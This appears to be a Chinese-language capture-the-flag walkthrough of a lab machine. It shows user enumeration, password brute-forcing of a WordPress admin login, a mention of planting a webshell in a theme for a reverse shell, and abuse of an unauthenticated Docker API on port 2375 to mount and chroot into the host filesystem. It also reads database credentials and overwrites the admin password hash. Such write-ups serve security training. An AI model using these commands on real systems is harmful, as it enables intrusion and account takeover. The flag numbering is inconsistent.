









```
发现主机：10.46.13.84
```



### nmap扫描

```bash
 nmap -Pn -sC -sV -T4 10.46.13.84
```



```
2375/tcp open  docker  Docker 17.06.0-ce
```

### 需要全端口扫描-p-才能扫到这个2375端口

访问http://10.46.13.84:8000/

顺便扫目录

```bash
gobuster dir -u http://10.46.13.84:8000 -w ~/Desktop/common.txt
```


发现是个WordPress CMS 

目录也扫出了很多指纹

### 管理员登录页

    http://10.46.13.84:8000/wp-admin/

wpscan枚举用户

```bash
wpscan --url http://10.46.13.84:8000 -e u
```

#### 发现一个用户 bob

然后用rockyou.txt 字典爆破后台登录页

发现密码是 Welcome1

#### 进入后台后发现第一个flag



### 然后进入主题写木马拿到反弹shell

# 2.用攻击机docker 远程连接目标的docker暴露的2375端口，这个端口后面通过接口/var/run/docker.sock与daemon连接，Docker daemon 的未认证 API 端口,没有经过加密或认证

#### 查看镜像

攻击机的docker太新就会报错不支持接口，加上版本 DOCKER_API_VERSION=1.30

```bash
DOCKER_API_VERSION=1.30 docker -H tcp://10.46.13.84:2375 images
```

#### 

#### -H :Host 指定主机，没有默认连接本地的daemon

### 利用wordpress镜像起个容器，并且挂载宿主机的/目录到容器的/mnt目录，并且开启交互模式-it，让他弹出个shell出来

```bash
docker -H tcp://10.46.13.84:2375 run -v /:/mnt --rm -it wordpress chroot /mnt
```

因为每个 Docker 镜像都有默认的启动命令（`CMD` 或 `ENTRYPOINT`），不指定的话就会执行默认命令。

wordpress 镜像的默认命令是启动 Apache，所以不加 `chroot /mnt` 执个自定义命令的话它就直接跑 Web 服务了。

加了 `chroot /mnt` 就是告诉 Docker 不要执行默认命令，改为执行 `chroot /mnt`，这样才能进入docker的 shell。



上面是第三个flag



##### 进入wordpress容器

```bash
DOCKER_API_VERSION=1.30 docker -H tcp://10.46.13.84:2375 exec -it content_wordpress_1 sh
```

```bash
cat wp-config.php
```



##### 发现数据库密码,如果不想在wordpress后台爆破密码的话，可以进数据看查看密码，然后进web后台

## 打开mysql容器

```bash
DOCKER_API_VERSION=1.30 docker -H tcp://10.46.13.84:2375 exec -it content_db_1 sh
```

### 登录mysql

```bash
mysql -uwordpress -pWordPressISBest
```



```bash
select *from wp_users
```



#### 拿到bob的密码后可以用hashcat破解，也可以去个md5在线网站破解，但是我们直接改个密码

```bash
update wp_users set user_pass=MD5('123456') where user_login='bob';
```

然后用bob用户和123456密码登录web后台拿下flag1


靶机作者说没有flag2，总共2个flag
